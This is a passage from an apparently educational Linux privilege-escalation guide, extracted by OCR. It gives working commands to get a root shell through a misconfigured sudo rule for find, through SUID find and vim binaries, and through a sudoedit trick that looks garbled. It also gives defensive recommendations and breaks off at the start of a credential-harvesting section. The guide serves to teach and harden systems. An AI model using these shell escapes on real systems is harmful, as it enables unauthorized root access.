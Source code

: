 user ALL=(ALL) NOPASSWD: /usr/bin/find

Exploit it using the following command:

bash

    sudo find . -exec /bin/sh \; -quit

Exploiting Sudo Edit:

bash

        sudoedit -s /
        !sh

    Recommendations:
        Audit and regularly review sudoers configurations.
        Avoid using NOPASSWD for critical commands.
        Keep sudo updated to the latest secure version.

C. Exploiting SUID Binaries

Description: SUID (Set User ID) is a special type of file permission that allows users to execute a file with the permissions of the file owner (often root). Misconfigured SUID binaries can be exploited for privilege escalation.

    Common Tools and Techniques:
        Finding SUID Binaries: Using find command to locate binaries with SUID bit set.
        Abusing Common Binaries: Executables like nmap, vim, find, and cp can be used for privilege escalation when configured with SUID.
        Custom SUID Scripts: Scripts left with SUID bit by mistake can be exploited.

    Command Examples:

        Finding SUID Binaries:

        bash

find / -perm -4000 2>/dev/null

Exploiting SUID with find:

bash

./find . -exec /bin/sh -p \; -quit

Exploiting SUID with vim:

bash

        ./vim -c ':!/bin/sh'

    Recommendations:
        Regularly scan for and remove unnecessary SUID binaries.
        Use nosuid mount option on sensitive directories.
        Apply strict file permissions and user access controls.

D. Credential Harvesting

Description: Credentials stored on the system can be used to escalate privileges. Common targets include SSH keys, password files, and other sensitive configuration files.
